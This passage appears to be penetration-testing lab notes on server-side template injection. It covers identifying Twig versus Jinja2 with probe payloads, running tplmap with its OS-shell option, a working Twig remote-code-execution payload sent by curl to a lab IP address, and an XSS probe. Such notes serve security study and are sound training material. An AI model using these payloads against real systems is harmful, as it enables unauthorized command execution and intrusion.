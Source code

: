   * The payload ```{{7*'7'}}``` also gets evaluated to 49 - so we are either dealing with Jinja2 or Twig template engine

  * We can check for more payloads from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) or [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) and check if it's Jinja2 or Twig

  * Twig-specific payloads like ```{{_self.env.display("TEST")}}``` and ```{{_self.env}}``` indicate that Twig is the underlying template engine

  * This process can be automated through ```tplmap``` as well:

    ```shell
    git clone https://github.com/epinna/tplmap.git

    cd tplmap

    pip install virtualenv

    virtualenv -p python2 venv

    source venv/bin/activate

    pip install -r requirements.txt

    # run tplmap
    ./tplmap.py -u 'http://94.237.63.93:59545' -d name=john
    # since user input is submitted via 'name' parameter through POST request

    # to get RCE through tplmap, use '--os-shell' flag
    ```
  
  * Twig has a variable ```_self``` which makes few of the internal APIs public; we can use it in our RCE payload - register a function as a filter callback via ```registerUndefinedFilterCallback```, and invoke ```_self.env.getFilter``` function to execute the just-registered function:

    ```php
    {{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
    ```

    ```shell
    # submit payload via cURL
    curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://94.237.63.93:59545
    # we get command executed in response
    ```
  
  * When mathematical expressions are evaluated through SSTI, there's a possibility of XSS as well - can be confirmed by submitting a XSS payload within curly brackets, e.g. - ```{{<img src=x onerror=alert(1) />}}```
